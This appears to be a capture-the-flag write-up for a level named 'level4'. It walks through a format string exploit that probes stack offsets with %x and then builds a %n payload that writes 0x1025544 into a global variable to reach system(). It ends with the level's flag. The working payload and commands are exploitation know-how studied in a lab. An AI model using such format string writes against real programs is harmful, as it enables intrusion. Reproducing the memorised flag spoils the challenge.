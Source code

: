 ## level4
The `level4` is almost the same as `level3`, a very basic main that calls a function called `n()` that also calls `p()` only for outputing what was entered as argument and then function `n()` compares the value inside *global variable 0x8049810 \<m>* to `0x1025544` and if they are not equal the function returns otherwise it executes: <br> `0x080484a0 <+73>:	call   0x8048360 <system@plt>` <br>and that's what we want.
```
0x080484a7 <+0>:	push   ebp
0x080484a8 <+1>:	mov    ebp,esp
0x080484aa <+3>:	and    esp,0xfffffff0
0x080484ad <+6>:	call   0x8048457 <n>
0x080484b2 <+11>:	leave
0x080484b3 <+12>:	ret
```
We will be usding the same strategy from `level3` __*format string exploit*__, bear in mind that this time we will need to set a variable to a very higher value, in `level3` was just *64* while in `level4` the value is `0x1025544 (16930116)` so we will need to modify a bit our strategy, but if I remember well when I coded my own version of `printf()` *(I would have never imagined this project would help me in this way :p)* the `printf()` function has an option for `padding` and that's what we're  gonna use here to generate those extra `16930112` characters *(Yeah I'm not kidding)*, let's start to find the __offset__ for our __address__
```
~$ echo "AAAA %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708
~$ echo "AAAA %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500
~$ echo "AAAA %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0
~$ echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 41414141
```
A little bit harder but we could find it, checking the position we know our __address__ is being set on the stack at postion 12th so we get it done `%12\$n` and the address we have it from the disassembled code<br>
`x0804848d <+54>:	mov    eax,ds:0x8049810`<br> Now we just need to build the *format string specifier*. <br>
`(python -c "print('\x10\x98\x04\x08' + 'A' + '%16930111c' + '%12\$n')";) | ./level4` <br>
[...]<br>
after some 16930111 space later<br>
`0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
